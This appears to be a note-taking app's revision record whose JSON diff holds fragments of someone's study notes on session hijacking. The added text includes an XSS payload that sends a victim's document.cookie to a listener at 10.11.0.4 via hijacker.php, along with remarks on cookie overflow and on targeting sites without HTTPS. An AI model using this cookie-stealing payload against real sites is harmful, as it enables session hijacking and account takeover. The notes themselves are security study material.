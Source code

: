 id: 76d5dfd3985d461b93d6ca2eb41ede72
parent_id: 5a54f0b7be2a4f4ba09a0adab3995063
item_type: 1
item_id: 1094d9f035074e3a8ef344a61a88cf5e
item_updated_time: 1643079735103
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"etwork\\\n\\\n\"],[1,\"- Make sure the website is not using HTTPS\\\n\\\n\"],[0,\"<ins>**H\"]],\"start1\":544,\"start2\":544,\"length1\":16,\"length2\":60},{\"diffs\":[[0,\"4d)\\\n\"],[-1,\"\\\nFirst, use an XSS script if HttpOnly is not set\\\n\\\n<script\"],[1,\"- In Firefox console, the cookie did not overflow and got removed; instead we manually deleted the cookie and allowed the browser to overwrite. We can also manually edit the cookie; however, this will not work unless we programme it to\\\n- We can do a for-loop, then \\\n\\\nFirst, use an XSS script if HttpOnly is not set\\\n\\\n> &lt;script&gt;new Image().src=’http://10.11.0.4/hijacker.php?cookie=’+document.cookie;&lt;/script&gt;\\\n\\\nWhen we have our web server open, we will see the user accessing, and the Session ID generated\"]],\"start1\":884,\"start2\":884,\"length1\":61,\"length2\":519}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-25T03:07:05.193Z
created_time: 2022-01-25T03:07:05.193Z
type_: 13